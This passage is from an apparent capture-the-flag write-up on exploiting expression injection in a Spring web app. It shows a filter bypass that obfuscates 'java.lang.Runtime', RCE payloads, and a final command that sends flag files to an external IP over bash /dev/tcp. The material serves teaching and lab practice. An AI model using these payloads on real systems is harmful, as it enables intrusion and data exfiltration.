 #### Preparing Exploit

Now we have our theory validated, we will try to perform RCE (remote code execution) on the server and read the flag, it is always better to just print current working directory on the server to confirm the RCE.

I'm not java expert, and hence I was banging my head around the internet to findout a way to get RCE and came across [Spring Pentest guide ](https://exploit-notes.hdks.org/exploit/web/framework/java/spring-pentesting/)

And we have our input ready to be tested `"".getClass().forName("java.lang.Runtime").getRuntime().exec("pwd")`

![[rce_try1.png]]

But, what we are getting redirected to homepage, and this is because of the following code added in index controller, and it would not allow us to pass java word in the request value.

```java
if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "But.... For what?");
            return "redirect:/";
```

One the same testing guide we have string manipulation guide available `{"dfd".replace("d", "x")}`  and in our exploit we are passing `java.lang.Runtime` as string and we can use the same technique here, and our exploit would look something like `"".getClass().forName("jawa.lang.Runtime".replace("w","v")).getRuntime().exec("pwd")` and we are able to perform RCE.

![[rce_try2.png]]

But still it returns the object instance and not actual value what we want, and hence we have to find out a way to get a reverse shell or perform SSRF. And with bit of research we have our request crafted.

#### Showtime

To listen on public IP we can either use Ngrok or any cloud instance reachable from internet, and here I have used GCE listening on port 1337.

Our final payload is `"".getClass().forName("jawa.lang.Runtime".replace("w","v")).getRuntime().exec("bash -c cat${IFS}/flag*>&/dev/tcp/35.184.189.108/1337<&1")`

![[htb.mp4]]

#### Exploit Code Explanation 

- "".getClass().forName():
This part creates an empty string and retrieves its class object, which is java.lang.String.class. This is a way to get a reference to the class loader.

- .forName("jawa.lang.Runtime".replace("w","v")):
This line attempts to load a class by name. It takes the string "jawa.lang.Runtime" and replaces the letter w with v, resulting in "java.lang.Runtime". This is a clever way to obfuscate the string to avoid detection while still correctly referencing the Runtime class.
